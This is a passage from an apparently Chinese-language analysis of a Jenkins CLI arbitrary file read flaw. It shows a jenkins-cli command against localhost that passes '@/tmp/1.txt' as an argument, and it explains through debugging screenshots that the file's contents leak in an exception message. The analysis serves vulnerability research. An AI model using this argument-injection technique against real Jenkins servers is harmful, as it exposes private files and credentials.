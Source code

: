 ```bash
java -jar jenkins-cli.jar -s http://localhost:8081/ -auth user:bitnami -webSocket who-am-i @/tmp/1.txt
```

再次进行调试，发现会把/tmp/1.txt 内容读取出来

![图片](assets/1706497193-772bc342dc4ef3bc5c46d299ecbee08d.png)

再接着向下看，读取出来的内容作为异常抛了出来，从而达到了任意文件读取

![图片](assets/1706497193-32b3ce8bf4bb4d26cb8b2335be7915e7.png)
